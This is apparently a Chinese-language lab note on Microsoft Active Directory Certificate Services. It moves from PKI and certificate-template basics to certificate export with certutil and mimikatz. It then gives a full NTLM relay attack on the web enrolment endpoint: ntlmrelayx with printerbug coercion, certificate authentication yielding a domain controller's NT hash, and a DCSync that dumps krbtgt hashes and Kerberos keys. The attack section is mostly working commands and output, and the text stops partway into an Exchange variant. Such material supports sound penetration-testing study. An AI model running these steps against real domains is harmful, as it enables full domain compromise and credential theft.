








# 一、ADCS
微软活动目录证书服务

# 二、基础知识
## 1、PKI
 PKI（Public Key Infrastructure，公钥基础设施）是一种用于管理数字证书和加密密钥的框架，旨在提供安全的通信、身份验证和数据加密。它基于公钥加密体系，使用一对密钥（公钥和私钥）来确保信息传输的安全。  ADCS是对PKI的实现

### （1） CA
**证书颁发机构（CA）**：CA是一个受信任的第三方机构，负责签发和管理数字证书。数字证书包含了公钥和该公钥的所有者信息。

在域内搭建的ADCS，在按照企业根CA时，系统会使用策略组把CA添加到域内所有机器的受信任的根证书颁发机构，因此域内机器默认信任此CA颁发的证书

### （2）CA层次结构
常见CA层级有根和二级CA（子从属CA），根CA给二级CA颁发证书认证，子从属CA给下面的应用颁发和管理证书，根CA不直接给应用颁发证书。

### （3）CRL
证书作废列表

## 2、PKINIT Kerberos认证
可以利用证书来进行Kerberos预身份认证

## 3、证书模板
证书模板是CA的组成部分，是用于证书注册、使用和管理的规则和格式。当CA收到对证书的请求时，必须对该请求应用一组规则和设置，以执行所请求的功能。

基于证书模板的证书只能由企业CA颁发。这些模板存储在ADDS，供林中每个CA使用。

查看证书模板：certtmpl.msc

只有指定模板的证书才可用于Kerberos认证

+ 客户端身份验证，OID 1.3.6.1.5.5.7.3.2
+ PKINIT客户端身份验证，OID 1.3.6.1.5.2.3.4
+ 智能卡登录，OID 2.5.29.37.0
+ 子CA

### （1） 用户模板 User
用户模板是默认的证书模板，可以看到拓展属性有客户端身份验证，因此用户模板申请的证书可以用于Kerberos身份认证，且Domain Users都有权限注册用户模板的证书

certtmpl.msc



使用Certipy申请证书

```plain
(base) ┌──(root㉿Kali)-[~]
└─# certipy-ad -debug req -dc-ip 10.10.4.8 -u hack@sec.local -p "Az123456@" -ca sec-WIN2019-ADCS1-CA-3 -target "WIN2019-ADCS1.sec.local" -template "User"
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[+] DC host (-dc-host) not specified. Using domain as DC host
[+] Nameserver: '10.10.4.8'
[+] DC IP: '10.10.4.8'
[+] DC Host: 'SEC.LOCAL'
[+] Target IP: None
[+] Remote Name: 'WIN2019-ADCS1.sec.local'
[+] Domain: 'SEC.LOCAL'
[+] Username: 'HACK'
[+] Trying to resolve 'WIN2019-ADCS1.sec.local' at '10.10.4.8'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.4.9[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.4.9[\pipe\cert]
[*] Request ID is 8
[*] Successfully requested certificate
[*] Got certificate with UPN 'hack@sec.local'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'hack.pfx'
[+] Attempting to write data to 'hack.pfx'
[+] Data written to 'hack.pfx'
[*] Wrote certificate and private key to 'hack.pfx'

(base) ┌──(root㉿Kali)-[~]
└─#

```

注意1：一定要使用企业CA，不能使用独立CA，不然会报错

```plain
└─# certipy-ad -debug ca -dc-ip 10.10.4.2 -u administrator@sec.local -p "Az123456@" -ca sec-WIN2019-ADCS1-CA -target "WIN2019-ADCS1.sec.local" -list-template
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[+] DC host (-dc-host) not specified. Using domain as DC host
[+] Nameserver: '10.10.4.2'
[+] DC IP: '10.10.4.2'
[+] DC Host: 'SEC.LOCAL'
[+] Target IP: None
[+] Remote Name: 'WIN2019-ADCS1.sec.local'
[+] Domain: 'SEC.LOCAL'
[+] Username: 'ADMINISTRATOR'
[+] Trying to resolve 'WIN2019-ADCS1.sec.local' at '10.10.4.2'
[+] Trying to get DCOM connection for: '10.10.4.9'
[-] Failed to get certificate templates: CASessionError: unknown error code: 0x80070490
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/certipy/commands/ca.py", line 797, in get_templates
    resp = self.cert_admin2.request(request)
  File "/usr/lib/python3/dist-packages/certipy/commands/ca.py", line 261, in request
    resp = dce.request(req, self.get_iPid(), *args, **kwargs)
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rpcrt.py", line 882, in request
    raise exception
certipy.commands.ca.DCERPCSessionError: CASessionError: unknown error code: 0x80070490

```

### （2）计算机模板
计算机模板是默认的证书模板，可以看到拓展属性有客户端身份验证，因此用户模板申请的证书可以用于Kerberos身份认证，且Domain Computers都有权限注册用户模板的证书



添加一个机器账户

```plain
(base) ┌──(root㉿Kali)-[~/tools/impacket]
└─# /root/.local/bin/addcomputer.py -computer-name 'machine3$' -computer-pass 'Az123456@' -dc-ip 10.10.4.2 -method LDAPS -debug sec.local/hack:"Az123456@"
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[+] Impacket Library Installation Path: /root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket
[*] Successfully added machine account machine3$ with password Az123456@.

```

申请计算机模板的证书

```plain
(base) ┌──(root㉿Kali)-[~/tools/impacket]
└─# certipy -debug req -dc-ip 10.10.4.8 -u machine3\$@sec.local -p "Az123456@" -ca sec-WIN2019-ADCS1-CA-3 -target "WIN2019-ADCS1.sec.local" -template "Machine"
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[+] DC host (-dc-host) not specified. Using domain as DC host
[+] Nameserver: '10.10.4.8'
[+] DC IP: '10.10.4.8'
[+] DC Host: 'SEC.LOCAL'
[+] Target IP: None
[+] Remote Name: 'WIN2019-ADCS1.sec.local'
[+] Domain: 'SEC.LOCAL'
[+] Username: 'MACHINE3$'
[+] Trying to resolve 'WIN2019-ADCS1.sec.local' at '10.10.4.8'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.4.9[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.4.9[\pipe\cert]

[*] Request ID is 22
[*] Successfully requested certificate
[*] Got certificate with DNS Host Name 'machine3.sec.local'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'machine3.pfx'
[+] Attempting to write data to 'machine3.pfx'
[+] Data written to 'machine3.pfx'
[*] Wrote certificate and private key to 'machine3.pfx'

```

注：需要使用LDAPS来添加机器账户，否则在申请证书时候会提示DNS属性不存在

## 4、证书注册
 

证书注册流程：

1）客户端生成一对公私钥

2）客户端生成证书签名请求CSR，其中包含客户端生成的公钥、请求的证书模板、请求的主体等信息，整个CSR用客户端的私钥签名发送给CA

3）CA收到请求后，从中取出公钥对CSR进行签名校验；校验通过后判断证书模板是否存在；接着在根据证书模板判断请求的主体是否有权限申请；如果有权限，还要根据其他属性的要求来生成证书

4）CA使用私钥签名生成证书发送给客户端

5）客户端存储该证书在系统

certmgr.msc管理用户证书，certlm.msc管理机器证书



certlm.msc申请用户证书，选择Kerberos身份验证模板



## 5.导出证书
查看用户证书

```plain
C:\Users\administrator.SEC>certutil -user -store My
My "Personal"
================ Certificate 1 ================
Serial Number: 6500000017b88419acb8df9d90000000000017
Issuer: CN=sec-WIN2019-ADCS1-CA-3, DC=sec, DC=local
 NotBefore: 6/29/2025 5:06 PM
 NotAfter: 6/29/2026 5:06 PM
Subject: E=Administrator@sec.local, CN=Administrator, CN=Users, DC=sec, DC=local
Certificate Template Name (Certificate Type): Administrator
Non-root Certificate
Template: Administrator
Cert Hash(sha1): 9045d4b52eaf31712f34c91adeaee60f5c66cbfc
  Key Container = 9b74528a6d79572b89e1fef5b2d761b6_ab89b7a9-b2d9-4881-af4a-b3c9b540b1b2
  Simple container name: te-Administrator-7360bc59-756e-498b-b516-01a989030a44
  Provider = Microsoft Enhanced Cryptographic Provider v1.0
Encryption test passed

================ Certificate 2 ================

```

查看机器证书

```plain
C:\Users\administrator.SEC>certutil -store My
My "Personal"
================ Certificate 0 ================
Serial Number: 33e8a97bd1dfc988402dcef62f485cd0
Issuer: CN=sec-WIN2019-DC1-CA, DC=sec, DC=local
 NotBefore: 4/13/2025 6:40 PM
 NotAfter: 4/13/2030 6:50 PM
Subject: CN=sec-WIN2019-DC1-CA, DC=sec, DC=local
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Cert Hash(sha1): f93db981caaf6897abf9d78270d9e7d8680d278f
  Key Container = sec-WIN2019-DC1-CA
  Unique container name: e80a27132342f9930aa7f29b36af45d7_ab89b7a9-b2d9-4881-af4a-b3c9b540b1b2
  Provider = Microsoft Software Key Storage Provider
Signature test passed
```

导出用户证书

```plain
C:\Users\Administrator>certutil -user -store My 6500000017b88419acb8df9d90000000000017 C:\user.cer
My "Personal"
================ Certificate 1 ================
Serial Number: 6500000017b88419acb8df9d90000000000017
Issuer: CN=sec-WIN2019-ADCS1-CA-3, DC=sec, DC=local
 NotBefore: 6/29/2025 5:06 PM
 NotAfter: 6/29/2026 5:06 PM
Subject: E=Administrator@sec.local, CN=Administrator, CN=Users, DC=sec, DC=local
Certificate Template Name (Certificate Type): Administrator
Non-root Certificate
Template: Administrator
Cert Hash(sha1): 9045d4b52eaf31712f34c91adeaee60f5c66cbfc
  Key Container = 9b74528a6d79572b89e1fef5b2d761b6_ab89b7a9-b2d9-4881-af4a-b3c9b540b1b2
  Simple container name: te-Administrator-7360bc59-756e-498b-b516-01a989030a44
  Provider = Microsoft Enhanced Cryptographic Provider v1.0
Encryption test passed
CertUtil: -store command completed successfully.

C:\Users\Administrator>
```

导出包含公私钥的用户证书

```plain
C:\Users\Administrator>certutil -user -exportPFX 6500000017b88419acb8df9d90000000000017 C:\user.cer
MY "Personal"
================ Certificate 1 ================
Serial Number: 6500000017b88419acb8df9d90000000000017
Issuer: CN=sec-WIN2019-ADCS1-CA-3, DC=sec, DC=local
 NotBefore: 6/29/2025 5:06 PM
 NotAfter: 6/29/2026 5:06 PM
Subject: E=Administrator@sec.local, CN=Administrator, CN=Users, DC=sec, DC=local
Certificate Template Name (Certificate Type): Administrator
Non-root Certificate
Template: Administrator
Cert Hash(sha1): 9045d4b52eaf31712f34c91adeaee60f5c66cbfc
  Key Container = 9b74528a6d79572b89e1fef5b2d761b6_ab89b7a9-b2d9-4881-af4a-b3c9b540b1b2
  Simple container name: te-Administrator-7360bc59-756e-498b-b516-01a989030a44
  Provider = Microsoft Enhanced Cryptographic Provider v1.0
Encryption test passed
Enter new password for output file C:\user.cer:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command FAILED: 0x80070050 (WIN32: 80 ERROR_FILE_EXISTS)
CertUtil: The file exists.

C:\Users\Administrator>
```

导出机器证书

```plain
C:\Users\Administrator>certutil -store My 33e8a97bd1dfc988402dcef62f485cd0 C:\machine.cer
My "Personal"
================ Certificate 0 ================
Serial Number: 33e8a97bd1dfc988402dcef62f485cd0
Issuer: CN=sec-WIN2019-DC1-CA, DC=sec, DC=local
 NotBefore: 4/13/2025 6:40 PM
 NotAfter: 4/13/2030 6:50 PM
Subject: CN=sec-WIN2019-DC1-CA, DC=sec, DC=local
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Cert Hash(sha1): f93db981caaf6897abf9d78270d9e7d8680d278f
  Key Container = sec-WIN2019-DC1-CA
  Unique container name: e80a27132342f9930aa7f29b36af45d7_ab89b7a9-b2d9-4881-af4a-b3c9b540b1b2
  Provider = Microsoft Software Key Storage Provider
Signature test passed
CertUtil: -store command completed successfully.

C:\Users\Administrator>
```

导出包含公私钥的机器证书

```plain
C:\Users\Administrator>certutil -exportPFX 33e8a97bd1dfc988402dcef62f485cd0 C:\machine.pfx
MY "Personal"
================ Certificate 0 ================
Serial Number: 33e8a97bd1dfc988402dcef62f485cd0
Issuer: CN=sec-WIN2019-DC1-CA, DC=sec, DC=local
 NotBefore: 4/13/2025 6:40 PM
 NotAfter: 4/13/2030 6:50 PM
Subject: CN=sec-WIN2019-DC1-CA, DC=sec, DC=local
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Cert Hash(sha1): f93db981caaf6897abf9d78270d9e7d8680d278f
  Key Container = sec-WIN2019-DC1-CA
  Unique container name: e80a27132342f9930aa7f29b36af45d7_ab89b7a9-b2d9-4881-af4a-b3c9b540b1b2
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file C:\machine.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.

C:\Users\Administrator>
```

有些证书模板设置了私钥不允许导出，如域控证书模板，所以使用mimikatz导出

```plain
PS C:\Users\Administrator\Desktop\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::certificates /systemstore:local_machine /store:my /export
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'my'

 0. sec-WIN2019-DC1-CA
    Subject  : DC=local, DC=sec, CN=sec-WIN2019-DC1-CA
    Issuer   : DC=local, DC=sec, CN=sec-WIN2019-DC1-CA
    Serial   : d05c482ff6ce2d4088c9dfd17ba9e833
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/13/2025 6:40:20 PM -> 4/13/2030 6:50:20 PM
    Hash SHA1: f93db981caaf6897abf9d78270d9e7d8680d278f
        Key Container  : sec-WIN2019-DC1-CA
        Provider       : Microsoft Software Key Storage Provider
        Provider type  : cng (0)
        Type           : CNG Key (0xffffffff)
        |Provider name : Microsoft Software Key Storage Provider
        |Implementation: NCRYPT_IMPL_SOFTWARE_FLAG ;
        Key Container  : sec-WIN2019-DC1-CA
        Unique name    : e80a27132342f9930aa7f29b36af45d7_ab89b7a9-b2d9-4881-af4a-b3c9b540b1b2
        Algorithm      : RSA
        Key size       : 2048 (0x00000800)
        Export policy  : 00000003 ( NCRYPT_ALLOW_EXPORT_FLAG ; NCRYPT_ALLOW_PLAINTEXT_EXPORT_FLAG ; )
        Exportable key : YES
        LSA isolation  : NO
        Public export  : OK - 'local_machine_my_0_sec-WIN2019-DC1-CA.der'
        Private export : OK - 'local_machine_my_0_sec-WIN2019-DC1-CA.pfx'

.................

mimikatz #
```

# 三、ADCS的安全问题
## 1、Web证书注册接口NTLM Relay攻击
### 1.1 漏洞原理
Web接口默认只允许NTLM身份认证，而http类型的NTLM流量默认是不签名的，因此可以造成NTLM Realy攻击。

攻击者可以利用printbug触发目标机器smb类型的ntlm流量回连Kali，然后将这个流量中继给Web注册证书接口，以目标机器的权限申请证书。

### 1.2 漏洞复现
通过NTLM Relay攻击以下目标

域控：域控的机器账户拥有DCSync权限

Exchange邮箱服务器：机器账户可以直接用于远程连接登录

域内普通机器：机器账户可以结合资源的约束性委派进行利用

环境：

域控（证书服务器）：10.10.4.2

域控AD02:10.10.4.8

域内普通机器Win2008：10.10.4.20

域内普通机器Win10：10.10.4.21

Kali：10.10.4.10

定位证书服务器

```plain
PS C:\Users\Administrator\Desktop\x64> certutil -config - -ping
Win2019-DC1.sec.local\sec-WIN2019-DC1-CA
Connecting to Win2019-DC1.sec.local\sec-WIN2019-DC1-CA ...
Server "sec-WIN2019-DC1-CA" ICertRequest2 interface is alive (0ms)
CertUtil: -ping command completed successfully.
PS C:\Users\Administrator\Desktop\x64>
```

#### 1）攻击域控
Kali监听

```plain
(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/ntlmrelayx.py -t http://10.10.4.2/certsrv/certfnsh.asp -smb2support --adcs --template 'domain controller'
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up RPC Server on port 135
[*] Multirelay disabled

[*] Servers started, waiting for connections

```

printbug触发漏洞

```plain
(base) ┌──(root㉿Kali)-[~/tools/krbrelayx]
└─# python3 printerbug.py sec/hack:"Az123456@"@10.10.4.8 10.10.4.10
[*] Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Attempting to trigger authentication via rprn RPC at 10.10.4.8
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] Triggered RPC backconnect, this may or may not have worked

(base) ┌──(root㉿Kali)-[~/tools/krbrelayx]
└─#

```

收到请求，申请证书

```plain
[*] Servers started, waiting for connections
[*] SMBD-Thread-6 (process_request_thread): Received connection from 10.10.4.8, attacking target http://10.10.4.2
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.10.4.2 as SEC/WIN2019-DC3$ SUCCEED
[*] SMBD-Thread-8 (process_request_thread): Received connection from 10.10.4.8, attacking target http://10.10.4.2
[-] Authenticating against http://10.10.4.2 as / FAILED
[*] All targets processed!
[*] SMBD-Thread-9 (process_request_thread): Connection from 10.10.4.8 controlled, but there are no more targets left!
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 12
[*] Writing PKCS#12 certificate to ./WIN2019-DC3$.pfx
[*] Certificate successfully written to file
```

对获得的证书进行认证，得到域控 WIN2019-DC1 的 hash

```plain
(base) ┌──(root㉿Kali)-[~]
└─# certipy auth -pfx WIN2019-DC3\$.pfx -dc-ip 10.10.4.2
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'WIN2019-DC3.sec.local'
[*]     Security Extension SID: 'S-1-5-21-2066713137-2133816201-3751750268-1160'
[*] Using principal: 'win2019-dc3$@sec.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'win2019-dc3.ccache'
[*] Wrote credential cache to 'win2019-dc3.ccache'
[*] Trying to retrieve NT hash for 'win2019-dc3$'
[*] Got hash for 'win2019-dc3$@sec.local': aad3b435b51404eeaad3b435b51404ee:86003ac84455a5ea9913c45acb79f5c8

(base) ┌──(root㉿Kali)-[~]
└─#

```

执行DCSync

```plain
(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/secretsdump.py sec/win2019-dc3\$@10.10.4.2 -hashes :86003ac84455a5ea9913c45acb79f5c8 -just-dc-user "sec\krbtgt"
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1258230d20deb8fa8c0ee72e014ae813:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:f17ecd5329b2b676b5737a7e40c5cd26337048e048b09663ceef99178afff9d8
krbtgt:aes128-cts-hmac-sha1-96:48387c994c399862ae5ef5a7c86f0c8e
krbtgt:des-cbc-md5:512a436789e32394
[*] Cleaning up...

(base) ┌──(root㉿Kali)-[~]
└─#

```

#### 2）攻击Exchange邮箱服务器
Kali监听

```plain
(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/ntlmrelayx.py -t http://10.10.4.2/certsrv/certfnsh.asp -smb2support --adcs
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up RPC Server on port 135
[*] Multirelay disabled

[*] Servers started, waiting for connections

```

printbug触发中继

```plain
[*] Servers started, waiting for connections
